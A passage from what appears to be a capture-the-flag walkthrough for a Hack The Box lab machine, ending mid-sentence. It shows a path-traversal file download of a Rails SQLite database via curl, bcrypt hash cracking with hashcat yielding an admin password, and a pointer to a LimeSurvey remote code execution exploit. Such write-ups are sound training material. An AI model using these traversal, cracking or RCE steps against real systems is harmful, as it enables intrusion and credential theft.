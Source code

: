 So, now we know that we can make use of our LFI to get some credentials for this, let's start exploitation.


# EXPLOITATION
---

Now, once we know we got LFI, we can try reading some configuration files, we already know that we are dealing with ruby on rails so if we research the files structure, we get this:

![](Pasted image 20250311165157.png)

So, let's try to read the `/config/database.yml` file:

![](Pasted image 20250311165242.png)


We found the database file, it is `/storage/development.sqlite3`, let's download it into our machine to analyze it:


```
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc" "http://api.heal.htb/download?filename=../../storage/development.sqlite3" --output development.sqlite3
```

![](Pasted image 20250311165424.png)

We got an users table, we can see our administrator on top, `ralph`, it also got a Bcrypt hash so, let's try to decrypt it:


```
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
```


```
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt


$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```


We got it, these are the credentials:

```
ralph:147258369
```

![](Pasted image 20250311165940.png)

We are dealing with LimeSurvey 6.6.4, lets' try to search for an exploit:

Exploit: https://ine.com/blog/cve-2021-44967-limesurvey-rce

Got an RCE exploit, we can follow the PoC in that article, the article also uses this script:
